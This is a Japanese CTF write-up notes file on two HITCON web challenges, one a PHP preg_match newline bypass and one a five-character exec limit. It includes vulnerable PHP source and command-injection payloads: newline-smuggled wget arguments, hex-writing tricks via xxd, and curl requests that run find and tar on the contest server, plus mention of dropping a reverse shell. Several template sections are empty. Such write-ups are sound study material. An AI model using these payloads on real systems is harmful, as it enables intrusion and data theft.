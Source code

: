 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [writeup](#writeup)
  - [PHP "preg_match" with "%0a" (hitcon2015 babyfirst)](#php-preg_match-with--hitcon2015-babyfirst)
  - [PHP "exec(cmd) len(cmd)<= 5"(Hitcon CTF 2017 Quals: Baby First Revenge)](#php-execcmd-lencmd-5hitcon-ctf-2017-quals-baby-first-revenge)
  - [](#)
  - [](#-1)
  - [](#-2)
  - [](#-3)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# writeup
## PHP "preg_match" with "%0a" (hitcon2015 babyfirst)
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst  
https://github.com/pwning/public-writeup/blob/master/hitcon2015/web100-babyfirst/writeup.md  
- **entrypoint**  
以下のソースが与えられる。  
`if ( !preg_match('/^\w+$/', $args[$i]) )`で行頭から行末までが`\w`(abcdefghijklmnopqrstuvwxyz0123456789_)の時に`/bin/orange`コマンドと結合する。  
`preg_match`の`^ $`では改行文字`%0a`を入れると「行頭から改行文字まで」に範囲が変わってしまって、改行文字以降はチェックしなくなる！  
https://qiita.com/tadsan/items/81b2925b3ed03ae6b7e0  

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```
以下のようにすることで`%0a`以降のコマンドを普通に実行できる。  
配列にしてるのは`$args[$i]`で入力が配列として期待されているから。  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
- **payload**  
```txt
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a
```
## PHP "exec(cmd) len(cmd)<= 5"(Hitcon CTF 2017 Quals: Baby First Revenge)
https://infosec.rm-it.de/2017/11/06/hitcon-2017-ctf-babyfirst-revenge/  
https://hack.more.systems/writeup/2017/11/06/hitconctf-babyfirstrevenge/  
- **entrypoint**  
以下のPHPソースが与えられる。つまり、5文字以内でFlagをゲットする必要がある。  
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```
いろいろ解法があるらしいけど、以下のようにして`HELLO`という文字列を`z`というファイルに子の手順で書き込めるらしい。  
`>4845`,`ls>>y`で`y`というファイルに`4845`という値が書き込まれる。  
こんな調子でyというファイルにHEXで書き込んでいく。  
`*`でファイルが展開されて最終的に`xxd -p -r y z`みたいにASCIIに直して書きこむ。 
これでリバースシェルも書き込んでFlagゲット。  
```txt
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```
別のやり方として、以下のように`*`でファイルを展開してコマンドとして実行できるらしい！  
以下だと`find /`が実行できる。  
`/home/fl4444g/README.txt`が得られるらしい。  
```txt
curl 'http://52.199.204.34/?cmd=>find'
curl 'http://52.199.204.34/?cmd=*%20/>x'
```
以下で`tar zcf zzz /h*`でzzzというファイルを作成してそれをダウンロードしてFlagゲット。(この後もいろいろあるけど同じことなので割愛)  
```txt
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```
- **payload**  
```txt
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```
```txt
curl 'http://52.199.204.34/?cmd=>tar'
curl 'http://52.199.204.34/?cmd=>zcf'
curl 'http://52.199.204.34/?cmd=>zzz'
curl 'http://52.199.204.34/?cmd=*%20/h*'
```
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# メモ

